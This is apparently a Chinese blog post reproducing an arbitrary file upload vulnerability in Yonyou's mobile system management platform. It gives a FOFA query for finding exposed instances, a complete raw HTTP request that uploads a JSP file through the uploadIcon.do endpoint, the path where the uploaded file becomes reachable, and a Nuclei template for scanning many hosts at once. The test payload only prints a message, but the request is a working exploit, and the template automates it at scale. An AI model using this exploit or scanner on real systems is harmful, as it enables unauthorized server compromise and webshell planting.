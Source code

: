 # 原创
：  漏洞复现--用友移动管理平台uploadIcon任意文件上传

# 漏洞复现--用友移动管理平台uploadIcon任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

用友移动系统管理是用友公司推出的一款移动办公解决方案，旨在帮助企业实现移动办公、提高管理效率和员工工作灵活性。它提供了一系列功能和工具，方便用户在移动设备上管理和处理企业的系统和业务。该产品存在任意文件上传，攻击者可通过此漏洞获取服务器权限。

### 二：漏洞影响版本

用友-移动系统管理

### 三：网络空间测绘查询

fofa:<br/> `app="用友-移动系统管理"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3c8a3378dce9356ceccafe8d001814c9.jpeg"/><br/> POC:

```
POST /maportal/appmanager/uploadIcon.do HTTP/1.1
Host: X.X.X.X
Content-Length: 242
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Origin: chrome-extension://coohjcphdfgbiolnekdpbcijmhambjff
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=96C92E0C800D0F301877F24A281C4630.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="iconFile"; filename="test.jsp"
Content-Type: application/msword

&lt;% out.print("This page has a vulnerability!"); %&gt;
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a74059bcaecae20a409e8e4aacb170fb.jpeg"/><br/> 访问/maupload/img/test.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c77106ff342041ac9c7fc4081956a65e.jpeg"/>

### 五：批量检测

```
id: Yonyou-mobile-system-management-uploadfile

info:
  name: Yonyou-mobile-system-management-uploadfilet
  author: 芝士土拨鼠
  severity: high
  description: 用友移动系统管理是用友公司推出的一款移动办公解决方案，旨在帮助企业实现移动办公、提高管理效率和员工工作灵活性。它提供了一系列功能和工具，方便用户在移动设备上管理和处理企业的系统和业务。该产品存在任意文件上传，攻击者可通过此漏洞获取服务器权限。

requests:
  - raw:
      - |-
        POST /maportal/appmanager/uploadIcon.do HTTP/1.1
        Host: {{Hostname}}
        Content-Length: 242
        Cache-Control: no-cache
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
        Origin: chrome-extension://coohjcphdfgbiolnekdpbcijmhambjff
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Cookie: JSESSIONID=96C92E0C800D0F301877F24A281C4630.server
        Connection: close

        ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
        Content-Disposition: form-data; name="iconFile"; filename="test.jsp"
        Content-Type: application/msword

        &lt;% out.print("This page has a vulnerability!"); %&gt;
        ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"status":2'
      - type: status
        status:
          - 200

```
